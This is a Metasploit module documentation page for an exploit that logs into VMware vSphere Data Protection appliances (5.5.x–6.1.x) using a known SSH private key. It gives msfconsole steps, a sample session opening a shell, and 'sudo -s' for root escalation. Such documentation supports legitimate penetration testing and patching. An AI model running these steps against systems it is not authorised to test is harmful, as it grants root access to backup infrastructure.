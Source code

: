 ## Vulnerable Application

  VMware vSphere Data Protection appliances 5.5.x through 6.1.x contain a known ssh private key for the local user admin who is a sudoer without password.

## Verification Steps

  1. Start msfconsole
  2. Do: `use exploit/linux/ssh/vmware_vdp_known_privkey`
  3. Do: `set rhost 1.2.3.4`
  4. Do: `exploit`
  5. You should get a shell.
  6. Type: `sudo -s` to become root user

## Scenarios

This is a run against a known vulnerable vSphere Data Protection appliance.  
  
```
msf > use exploit/linux/ssh/vmware_vdp_known_privkey  
msf exploit(vmware_vdp_known_privkey) > set rhost 1.2.3.4  
rhost => 1.2.3.4  
msf exploit(vmware_vdp_known_privkey) > run  
  
[+] Successful login  
[*] Found shell.  
[*] Command shell session 1 opened (1.2.3.5:34147 -> 1.2.3.4:22) at 2017-01-20 20:43:22 +0100  
```
